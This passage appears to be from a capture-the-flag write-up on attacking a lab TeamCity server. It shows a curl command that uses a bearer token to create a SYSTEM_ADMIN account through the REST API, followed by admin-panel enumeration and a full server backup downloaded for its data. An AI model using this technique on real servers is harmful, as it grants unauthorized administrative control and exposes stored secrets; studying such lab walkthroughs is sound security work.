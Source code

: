 #### Create User

To create a user, I’ll use the `/app/rest/users` endpoint, POSTing the user’s account information:

```

oxdf@hacky$ curl http://teamcity.runner.htb/app/rest/users -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --data '{"email": "", "username": "0xdf", "password": "0xdf0xdf", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}'
<?xml version="1.0" encoding="UTF-8" standalone="yes"?><user username="0xdf" id="13" href="/app/rest/users/id:13"><properties count="3" href="/app/rest/users/id:13/properties"><property name="addTriggeredBuildToFavorites" value="true"/><property name="plugin:vcs:anyVcs:anyVcsRoot" value="0xdf"/><property name="teamcity.server.buildNumber" value="129390"/></properties><roles><role roleId="SYSTEM_ADMIN" scope="g" href="/app/rest/users/id:13/roles/SYSTEM_ADMIN/g"/></roles><groups count="1"><group key="ALL_USERS_GROUP" name="All Users" href="/app/rest/userGroups/key:ALL_USERS_GROUP" description="Contains all TeamCity users"/></groups></user>

```

With that, I can log into TeamCity with the user I created:

![image-20240425151358841](/img/image-20240425151358841.png)

#### Enumeration

One thing of note in this admin panel is under “All-Projects” and then the dropdown next to “Edit project…”, there is an SSH Keys option with a “1” by it:

![image-20240425171254985](/img/image-20240425171254985.png)

Clicking on it, it shows the key, but I can only access the public key:

![image-20240425171330319](/img/image-20240425171330319.png)

#### Generate Backup

At the top right of the page is a link “Administration” that leads to an admin page. In the menu on the left is a “Backup” option:

[![image-20240822172129986](/img/image-20240822172129986.png)*Click for full size image*](/img/image-20240822172129986.png)

That gives a page to start a backup. I’ll set it to “All except build artifacts”:

![image-20240822172232779](/img/image-20240822172232779.png)

On clicking “Start Backup”, it takes about a second to complete the backup and it’s available in a new section at the bottom of the page:

![image-20240822172313414](/img/image-20240822172313414.png)

Clicking the link download the zip archive.

#### Data
